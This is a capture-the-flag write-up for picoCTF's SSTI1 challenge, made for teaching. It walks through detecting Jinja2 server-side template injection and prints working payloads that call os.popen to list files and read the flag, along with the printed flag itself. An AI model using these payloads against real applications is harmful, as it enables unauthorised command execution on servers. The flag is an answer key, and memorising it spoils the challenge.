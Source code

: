 # [SSTI1](https://play.picoctf.org/practice/challenge/492)

## Challenge Information
- **Category**: Web Exploitation
- **Difficulty**: Easy
- **Description**: I made a cool website where you can announce whatever you want! Try it out!

## Solution Overview
Server-Side Template Injection (SSTI) is a vulnerability that occurs when user-supplied input is processed by a template engine without proper sanitization. In this challenge, we'll exploit an SSTI vulnerability to retrieve the flag.

## Hints
- Server Side Template Injection

## Detailed Walkthrough

### Initial Analysis
#### Web Application Interaction
1. Launch the challenge instance
2. Observe the web page that accepts user input
3. Notice that the input is reflected back on the page

### Exploitation/Solution Steps
1. **Step 1**: Identify the Template Engine:

    ```
    ${7*7}
    {{7*7}}
    a{*comment*}b
    ${"z".join("ab")}
    {{7*'7'}}
    ```

    Based on the input, {{7*7}} works, so it must be either Jinja or Twig. By testing {{7*'7'}}, we get 7777777, so it is Jinja2.

2. **Step 2**: Prepare the exploits
   - List the directory to find any relevant flag file:
   
        ```
        {{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('ls').read() }}
        ```
   
        The output of this command reveals the following files:
        ```
        __pycache__
        app.py
        flag
        requirements.txt
        ```
   
   - Read the flag file:
   
        ```
        {{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('cat flag').read() }}
        ```

### Key Insights
- Understanding how different template engines parse input helps in exploiting SSTI vulnerabilities.
- Jinja2-based SSTI allows arbitrary code execution, making it highly dangerous.
- Checking for execution of mathematical expressions (`7*7`) helps confirm SSTI vulnerabilities.

## Tools and Resources Used
- [Server Side Template Injection (SSTI)](https://www.pwny.cc/web-attacks/server-side-template-injection-ssti)

## Flag
```
picoCTF{s4rv3r_s1d3_t3mp14t3_1nj3ct10n5_4r3_c001_753eca43}
```

## Learning Points
- How SSTI vulnerabilities work
- Identifying and exploiting Jinja2-based SSTI
- Importance of input sanitization in template engines

## Potential Improvements
- Always use input validation and sanitization
- Automating SSTI detection using Burp Intruder or a custom script

## References
- [PayloadsAllTheThings - SSTI](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md)
- [Server Side Template Injection (SSTI)](https://www.pwny.cc/web-attacks/server-side-template-injection-ssti)